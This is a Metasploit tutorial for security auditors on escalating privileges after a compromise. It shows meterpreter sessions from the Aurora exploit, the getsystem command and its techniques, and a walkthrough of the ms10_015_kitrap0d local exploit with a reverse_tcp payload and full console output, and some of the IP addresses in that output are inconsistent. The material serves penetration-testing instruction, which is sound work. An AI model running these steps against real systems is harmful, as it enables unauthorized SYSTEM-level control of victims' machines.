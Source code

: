 ```yaml
---
draft: false
title: MSF Privilege Escalation
linkTitle: Privilege Escalation
translationKey: msf-privilage-escalation
weight: 240
date: 2017-05-25T13:16:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Privilege escalation is the act of exploiting a bug, design flaw or configuration oversight in an operating system or software application to gain elevated access to resources that are normally protected from an application or user.
url: /msf-privilege-escalation/
featured_image: /images/metasploit.jpg
categories:
   - Metasploit Framework
tags:
   - cybersecurity
   - metasploit framework
---
```

## What next?

You have done the necessary work to find a system's vulnerability. You have found the vulnerability and after following the correct steps, you have managed to open a command line on the target computer. So what should be done next?

From this article on, we will examine the concept of privilege escalation. The security auditor who accesses the opposing system should aim to progress from this stage onwards. Controlling ongoing communication on the network and obtaining hash values ​​can be given as examples of these. Another goal should be to access other computers using this computer as a step (Eng: Pivoting).

Even if the vulnerability you used and the exploit module for it helped you log in to the opposing computer, you may have opened an unauthorized session. In this case, the operations you can do will be limited. There are a few alternative modules in the Metasploit Framework for such cases. One of them is the `getsystem` command.

## Unauthorized Session

As seen in the example below, an unauthorized meterpreter session was opened on the target system using the `ms10_002_aurora` module.

```bash
msf exploit(ms10_002_aurora) >
> Sending Internet Explorer "Aurora" Memory Corruption to client 192.168.1.161
> Sending stage (748544 bytes) to 192.168.1.161
> Meterpreter session 3 opened (192.168.1.71:38699 -> 192.168.1.161:4444) at 2010-08-21 13:39:10 -0600

msf exploit(ms10_002_aurora) > sessions -i 3
> Starting interaction with 3...

meterpreter > getuid
Server username: XEN-XP-SP2-BARE\victim
meterpreter >
```

## GetSystem

`getsystem` command To use it, first let's load the `priv` extension to the system.

```bash
meterpreter > use priv
Loading extension priv...success.
meterpreter >
```

As in the `getsystem -h` command, you can see the available options when you use the `-h` parameter.

```bash
meterpreter > getsystem -h Usage: getsystem [options]

Attempt to elevate your privilege to that of local system.

OPTIONS:

-h Help Banner.
-t <opt> The technique to use. (Default to '0').
0 : All techniques available
1 : Service - Named Pipe Impersonation (In Memory/Admin)
2 : Service - Named Pipe Impersonation (Dropper/Admin)
3 : Service - Token Duplication (In Memory/Admin)

meterpreter >
```

If you do not give any parameters to the ```getsystem``` command, it will try all possibilities by default.

```bash
meterpreter > getsystem
...got system (via technique 1).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

## Using Local Exploit

In some cases, `getsystem` fails. You can see an example of this below. When `getsystem` fails, it is necessary to send the session to the background and use other exploit modules in the Metasploit Framework.

```bash
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: Access is denied.
meterpreter >
```

Above is the output of a failed `getsystem` command. Let's send it to the background and look at the available local exploit modules.

```bash
meterpreter > background
> Backgrounding session 1...
msf exploit(ms10_002_aurora) > use exploit/windows/local/
...snip...
use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_injection
...snip...
use exploit/windows/local/ms10_015_kitrap0d
use exploit/windows/local/ms10_092_schelevator
use exploit/windows/local/ms11_080_afdjoinleaf
use exploit/windows/local/ms13_005_hwnd_broadcast
use exploit/windows/local/ms13_081_track_popup_menu
...snip...
msf exploit(ms10_002_aurora) >
```

Let's use the `exploit/windows/local/ms10_015_kitrap0d` module from the modules in this list.

```bash
msf exploit(ms10_002_aurora) > use exploit/windows/local/ms10_015_kitrap0d
msf exploit(ms10_015_kitrap0d) > set SESSION 1
msf exploit(ms10_015_kitrap0d) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(ms10_015_kitrap0d) > set LHOST 192.168.1.161
msf exploit(ms10_015_kitrap0d) > set LPORT 4443
msf exploit(ms10_015_kitrap0d) > show options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (accepted: seh, thread, process, none)
   LHOST     192.168.1.161    yes       The listen address
   LPORT     4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)


msf exploit(ms10_015_kitrap0d) > exploit

>  Started reverse handler on 192.168.1.161:4443 
>  Launching notepad to host the exploit...
[+]  Process 4048 launched.
>  Reflectively injecting the exploit DLL into 4048...
>  Injecting exploit into 4048 ...
>  Exploit injected. Injecting payload into 4048...
>  Payload injected. Executing exploit...
[+]  Exploit finished, wait for (hopefully privileged) payload execution to complete.
>  Sending stage (769024 bytes) to 192.168.1.71
>  Meterpreter session 2 opened (192.168.1.161:4443 -> 192.168.1.71:49204) at 2014-03-11 11:14:00 -0400
```

After making the necessary module and payload settings, the exploit that was run managed to open a session on the target system. Now, when we give the `getuid` command, we can act as an authorized user `SYSTEM` as seen below.

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
